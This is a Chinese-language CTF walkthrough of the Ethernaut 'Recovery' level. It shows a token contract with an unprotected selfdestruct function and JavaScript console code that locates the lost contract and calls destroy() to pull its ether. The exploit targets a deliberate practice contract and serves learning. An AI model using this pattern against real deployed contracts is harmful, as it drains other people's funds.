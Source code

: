 # 17. Recovery
### 原题
有个工厂函数，任何人都可以发币。有个人呢，创建了一个代币合约， 为了更多的代币，还向合约转了0.001eth，但是后来把这个合约的地址忘记了。这个糊涂鬼让我们帮忙找回地址，并追回损失。
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
        balances[_creator] = _initialSupply;
    }

    // collect ether in return for tokens
    receive() external payable {
        balances[msg.sender] = msg.value * 10;
    }

    // allow transfers of tokens
    function transfer(address _to, uint256 _amount) public {
        require(balances[msg.sender] >= _amount);
        balances[msg.sender] = balances[msg.sender] - _amount;
        balances[_to] = _amount;
    }

    // clean up after ourselves
    function destroy(address payable _to) public {
        selfdestruct(_to);
    }
}
```
### 分析
使用`new`来创建代币合约，底层使用`CREATE`，\
简单来讲，新建合约的地址是这么来的。\
`address = keccak256(RLP(sender, nonce))[12:]`\
同时有个不设限的函数`destroy`，执行`selfdestruct`\
指定的地址就可以收到新建代码合约的余额转账。\
我们不要忘记了，所有的链上交易行为，都可以在区块链的浏览器上查询到。\
所以最简单的方式就是在浏览器上去查创建合约的交易记录。\
![alt text](image-13.png)
![alt text](image-14.png)
这时候我们找到了新建的合约同时还有0.001ETH的转账记录。
我们打开`https://ethernaut.openzeppelin.com/level/0xAF98ab8F2e2B24F42C661ed023237f5B7acAB048`这个关卡页面。\
此页面已经注入了web3.js，所以我们可以直接console界面输入js代码来破解。\
![alt text](image-15.png)
```javascript
// "0x9E9277BC1244C0E18923AF3B88f5c78a098d3F8D"新建合约地址，从浏览器查询得到
let target = "0x9E9277BC1244C0E18923AF3B88f5c78a098d3F8D"
// 指定接收新建合约selfdestruct后的转账的地址
let sender = "0x5C7C4ce6EB0D638AF91C2726BFeA5F6A8ABB0a61"
// 我们需要通过发送消息调用destroy函数
// 写了destroy的ABI
let functionSignature = {
    name: 'destroy', type: 'function', inputs:[{type: 'address', name: '_to'}]
}
// 构造消息的DATA
// sender 对应就是destroy函数的参数_to
let data = web3.eth.abi.encodeFunctionCall(functionSignature, [sender])

// 向新建合约发送交易
let tx = await sendTransaction({
    from: sender,
    to: target,
    data: data
})

```